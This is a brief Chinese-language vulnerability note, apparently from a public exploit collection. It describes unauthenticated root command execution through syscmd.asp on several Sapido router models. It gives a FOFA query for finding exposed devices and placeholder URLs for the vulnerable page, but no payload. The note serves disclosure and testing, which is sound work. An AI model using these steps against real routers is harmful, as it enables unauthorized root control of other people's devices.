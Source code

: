 # Sapido多款路由器命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

> [!NOTE]
>
> BR270n-v2.1.03
>
> BRC76n-v2.1.03
>
> GR297-v2.1.3
>
> RB1732-v2.0.43

## FOFA

> [!NOTE]
>
> app="Sapido-路由器"

## 漏洞复现

固件中存在一个asp文件为 **syscmd.asp** 存在命令执行

![](image/sa-1.png)

访问目标:

```
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```

![](image/sa-2.png)

直接输入就可以命令执行了

